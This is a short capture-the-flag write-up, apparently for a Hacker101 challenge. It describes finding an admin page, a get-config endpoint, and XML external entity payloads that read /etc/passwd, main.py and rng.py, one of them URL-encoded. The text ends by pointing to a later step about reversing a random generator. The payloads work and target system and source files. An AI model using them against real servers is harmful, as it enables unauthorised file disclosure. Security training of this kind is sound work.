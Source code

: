 Found an admin page with burp.
https://xxxxxxxxxxxx.ctf.hacker101.com/admin

In the admin page we have a comment:
<!-- We should be using get-config for this on the client side. -->

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config

On top of the page there is '<?xml version="1.0" encoding="UTF-8"?>' which indicates the server uses xml for config.

xxe payload: `<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><config><location>&xxe;</location></config>`

using this website the payload can be turned into url friendly format: https://www.urlencoder.org/

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![Alt text](image.png)

The server is hosted with python so we can read the main.py file which has the first flag.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>`

![Alt text](main.py)

In the main file we can see the server is using a custom rng file.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "rng.py">]><config><location>&xxe;</location></config>`

Now to reverse the pseudorng (see ![Alt text](flag2.md))...
